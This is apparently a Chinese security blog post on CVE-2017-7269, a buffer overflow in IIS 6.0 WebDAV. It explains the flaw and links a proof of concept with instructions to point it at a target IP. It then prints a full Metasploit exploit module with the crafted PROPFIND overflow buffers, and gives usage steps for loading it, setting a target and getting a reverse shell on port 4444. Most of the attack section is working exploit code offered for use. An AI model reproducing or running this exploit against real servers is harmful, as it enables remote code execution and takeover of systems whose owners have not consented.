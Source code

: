 ```yaml
---
author: heh3.org
comments: true
date: 2017-03-30 17:05:13+00:00
layout: post
link: http://heh3.org/?p=87
slug: iis6-0%e8%bf%9c%e7%a8%8b%e5%91%bd%e4%bb%a4%e6%89%a7%e8%a1%8c%e6%bc%8f%e6%b4%9ecve-2017-7269
title: IIS6.0远程命令执行漏洞(CVE-2017-7269)
wordpress_id: 87
categories:
- websec
post_format:
- 链接
---
```


### 漏洞信息


漏洞编号：CVE-2017-7269

发现人员：Zhiniang Peng和Chen Wu（华南理工大学信息安全实验室,计算机科学与工程学院）

漏洞简述：开启WebDAV服务的IIS 6.0被爆存在缓存区溢出漏洞导致远程代码执行，目前针对 Windows Server 2003 R2 可以稳定利用，该漏洞最早在2016年7,8月份开始在野外被利用。

漏洞类型：缓冲区溢出

漏洞等级：高危

影响产品：Microsoft Windows Server 2003 R2 开启WebDAV服务的IIS6.0（目前已验证，其他版本尚未验证）

触发函数：ScStoragePathFromUrl函数

附加信息：ScStoragePathFromUrl函数被调用了两次

漏洞细节：在Windows Server 2003的IIS6.0的WebDAV服务的ScStoragePathFromUrl函数存在缓存区溢出漏洞，攻击者通过一个以“If: <Http://”开始的较长header头的PROPFIND请求执行任意代码。


### 漏洞条件：


iis6.0

开启WebDav功能（具体为PROPFIND方法，成功则返回207或者200）

windows server 2003 R2

poc-1：

https://github.com/edwardz246003/IIS_exploit/blob/master/exploit.py

修改代码sock.connect((‘127.0.0.1’,80))，将其中ip地址改为目标网站ip，运行该py文件，会在目标服务器上产生一个calc进程（计算器）。

poc-2：利用msf反弹shell（ruby脚本）


###### 注意：此exp仅适用于开启WebDav的32位版本2003R2系统


https://github.com/dmchell/metasploit-framework/pull/1/commits/9e8ec532a260b1a3f03abd09efcc44c30e4491c2

    
    <code>require 'msf/core'
    
    class MetasploitModule < Msf::Exploit::Remote
      Rank = GoodRanking
    
      include Msf::Exploit::Remote::Tcp
    
      def initialize(info = {})
        super(update_info(info,
          'Name'           => 'CVE-2017-7269 Microsoft IIS WebDav ScStoragePathFromUrl Overflow',
          'Description'    => %q{
              Buffer overflow in the ScStoragePathFromUrl function in the WebDAV service in Internet Information Services (IIS) 6.0 in Microsoft Windows Server 2003 R2 allows remote attackers to execute arbitrary code via a long header beginning with "If: <http://" in a PROPFIND request, as exploited in the wild in July or August 2016.
              Original exploit by Zhiniang Peng and Chen Wu.
          },
          'Author'         => [ 'Dominic Chell <dominic@mdsec.co.uk>' ],
          'License'        => MSF_LICENSE,
          'References'     =>
            [
              [ 'CVE', 'CVE-2017-7269'],
              [ 'BID', '97127'],
              [ 'URL', 'https://github.com/edwardz246003/IIS_exploit'],
            ],
          'Privileged'     => false,
          'Payload'        =>
            {
              'Space'       => 2000,
              'BadChars'    => "\x00",
              'EncoderType'   => Msf::Encoder::Type::AlphanumUnicodeMixed,
              'DisableNops'  =>  'True',
              'EncoderOptions' =>
                {
                  'BufferRegister' => 'ESI',
                }
            },
          'DefaultOptions' =>
            {
              'EXITFUNC' => 'process',
              'PrependMigrate' => true,
              'PrependMigrateProc' => "calc"
            },
          'Targets'        =>
            [
              [
                'Microsoft Windows Server 2003 R2',
                {
                  'Platform' => 'win',
                },
              ],
            ],
          'Platform'       => 'win',
          'DisclosureDate' => 'March 26 2017',
          'DefaultTarget' => 0))
    
        register_options(
          [
            Opt::RPORT(80)
          ], self.class)
      end
    
      def exploit
        connect
    
        buf1 = "If: <http://localhost/aaaaaaa"
        buf1 << "\xe6\xbd\xa8\xe7\xa1\xa3\xe7\x9d\xa1\xe7\x84\xb3\xe6\xa4\xb6\xe4\x9d\xb2\xe7\xa8\xb9\xe4\xad\xb7\xe4\xbd\xb0\xe7\x95\x93\xe7\xa9\x8f\xe4\xa1\xa8\xe5\x99\xa3\xe6\xb5\x94\xe6\xa1\x85\xe3\xa5\x93\xe5\x81\xac\xe5\x95\xa7\xe6\x9d\xa3\xe3\x8d\xa4\xe4\x98\xb0\xe7\xa1\x85\xe6\xa5\x92\xe5\x90\xb1\xe4\xb1\x98\xe6\xa9\x91\xe7\x89\x81\xe4\x88\xb1\xe7\x80\xb5\xe5\xa1\x90\xe3\x99\xa4\xe6\xb1\x87\xe3\x94\xb9\xe5\x91\xaa\xe5\x80\xb4\xe5\x91\x83\xe7\x9d\x92\xe5\x81\xa1\xe3\x88\xb2\xe6\xb5\x8b\xe6\xb0\xb4\xe3\x89\x87\xe6\x89\x81\xe3\x9d\x8d\xe5\x85\xa1\xe5\xa1\xa2\xe4\x9d\xb3\xe5\x89\x90\xe3\x99\xb0\xe7\x95\x84\xe6\xa1\xaa\xe3\x8d\xb4\xe4\xb9\x8a\xe7\xa1\xab\xe4\xa5\xb6\xe4\xb9\xb3\xe4\xb1\xaa\xe5\x9d\xba\xe6\xbd\xb1\xe5\xa1\x8a\xe3\x88\xb0\xe3\x9d\xae\xe4\xad\x89\xe5\x89\x8d\xe4\xa1\xa3\xe6\xbd\x8c\xe7\x95\x96\xe7\x95\xb5\xe6\x99\xaf\xe7\x99\xa8\xe4\x91\x8d\xe5\x81\xb0\xe7\xa8\xb6\xe6\x89\x8b\xe6\x95\x97\xe7\x95\x90\xe6\xa9\xb2\xe7\xa9\xab\xe7\x9d\xa2\xe7\x99\x98\xe6\x89\x88\xe6\x94\xb1\xe3\x81\x94\xe6\xb1\xb9\xe5\x81\x8a\xe5\x91\xa2\xe5\x80\xb3\xe3\x95\xb7\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5\x99\x94\xe4\x9d\xac\xe6\x95\x83\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88\xc8\x82\xc8\x82\xe1\x8b\x80\xe6\xa0\x83\xe6\xb1\x84\xe5\x89\x96\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92\xe4\x85\x90\xe6\x99\x8d\xe1\x8f\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6\xe7\x91\x81\xe4\x8d\xac\xe1\x8f\x80\xe6\xa0\x83\xe5\x8d\x83\xe6\xa9\x81\xe7\x81\x92\xe3\x8c\xb0\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7\xa5\x81\xe7\xa9\x90\xe4\xa9\xac"
        buf1 << ">"
        buf1 << " (Not <locktoken:write1>) <http://localhost/bbbbbbb"
        buf1 << "\xe7\xa5\x88\xe6\x85\xb5\xe4\xbd\x83\xe6\xbd\xa7\xe6\xad\xaf\xe4\xa1\x85\xe3\x99\x86\xe6\x9d\xb5\xe4\x90\xb3\xe3\xa1\xb1\xe5\x9d\xa5\xe5\xa9\xa2\xe5\x90\xb5\xe5\x99\xa1\xe6\xa5\x92\xe6\xa9\x93\xe5\x85\x97\xe3\xa1\x8e\xe5\xa5\x88\xe6\x8d\x95\xe4\xa5\xb1\xe4\x8d\xa4\xe6\x91\xb2\xe3\x91\xa8\xe4\x9d\x98\xe7\x85\xb9\xe3\x8d\xab\xe6\xad\x95\xe6\xb5\x88\xe5\x81\x8f\xe7\xa9\x86\xe3\x91\xb1\xe6\xbd\x94\xe7\x91\x83\xe5\xa5\x96\xe6\xbd\xaf\xe7\x8d\x81\xe3\x91\x97\xe6\x85\xa8\xe7\xa9\xb2\xe3\x9d\x85\xe4\xb5\x89\xe5\x9d\x8e\xe5\x91\x88\xe4\xb0\xb8\xe3\x99\xba\xe3\x95\xb2\xe6\x89\xa6\xe6\xb9\x83\xe4\xa1\xad\xe3\x95\x88\xe6\x85\xb7\xe4\xb5\x9a\xe6\x85\xb4\xe4\x84\xb3\xe4\x8d\xa5\xe5\x89\xb2\xe6\xb5\xa9\xe3\x99\xb1\xe4\xb9\xa4\xe6\xb8\xb9\xe6\x8d\x93\xe6\xad\xa4\xe5\x85\x86\xe4\xbc\xb0\xe7\xa1\xaf\xe7\x89\x93\xe6\x9d\x90\xe4\x95\x93\xe7\xa9\xa3\xe7\x84\xb9\xe4\xbd\x93\xe4\x91\x96\xe6\xbc\xb6\xe7\x8d\xb9\xe6\xa1\xb7\xe7\xa9\x96\xe6\x85\x8a\xe3\xa5\x85\xe3\x98\xb9\xe6\xb0\xb9\xe4\x94\xb1\xe3\x91\xb2\xe5\x8d\xa5\xe5\xa1\x8a\xe4\x91\x8e\xe7\xa9\x84\xe6\xb0\xb5\xe5\xa9\x96\xe6\x89\x81\xe6\xb9\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5\x90\xb3\xe3\x85\x82\xe5\xa1\xa5\xe5\xa5\x81\xe7\x85\x90\xe3\x80\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9\x8f\xe6\xa0\x80\xe4\x89\x87\xe7\x99\xaa\xe1\x8f\x80\xe6\xa0\x83\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5\x87\xe5\x88\xb4\xe4\xad\xa6\xe4\xad\x82\xe7\x91\xa4\xe7\xa1\xaf\xe6\x82\x82\xe6\xa0\x81\xe5\x84\xb5\xe7\x89\xba\xe7\x91\xba\xe4\xb5\x87\xe4\x91\x99\xe5\x9d\x97\xeb\x84\x93\xe6\xa0\x80\xe3\x85\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6\xa0\x81\xe1\x91\xa0\xe6\xa0\x83\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0\x83\xd1\xae\xe6\xa0\x83\xe7\x85\xae\xe7\x91\xb0\xe1\x90\xb4\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4\xb1\xe6\x99\xae\xe4\xa5\x95\xe3\x81\x92\xe5\x91\xab\xe7\x99\xab\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8\xe4\xb5\xa9\xe3\x99\xac\xe4\x91\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6\xa0\x80\xe4\xa1\xb7\xe3\x89\x93\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81"
    
        buf1 << payload.encoded
    
        sock.put("PROPFIND / HTTP/1.1\r\nHost: localhost\r\nContent-Length: 0\r\n#{buf1}>\r\n\r\n")
    
        handler
        disconnect
      end
    </code>


Usage：

将cve-2017-7269.rb文件放到

/usr/share/metasploit-framework/modules/exploits/windows/iis/目录下(kali2.0)。

运行msfconsole并加载cve-2017-7296


<blockquote>use exploit/windows/iis/cve-2017-7269

set RHOST 192.168.4.244 #设置目标IP

exploit</blockquote>


运行exploit，会在本机监听4444端口，存在漏洞的目标服务器会连上本机的4444端口

![](http://thief.one/upload_image/20170329/2.png)

refer:[http://thief.one/2017/03/29/IIS6-0%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E-CVE-2017-7269/](http://thief.one/2017/03/29/IIS6-0%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E-CVE-2017-7269/)
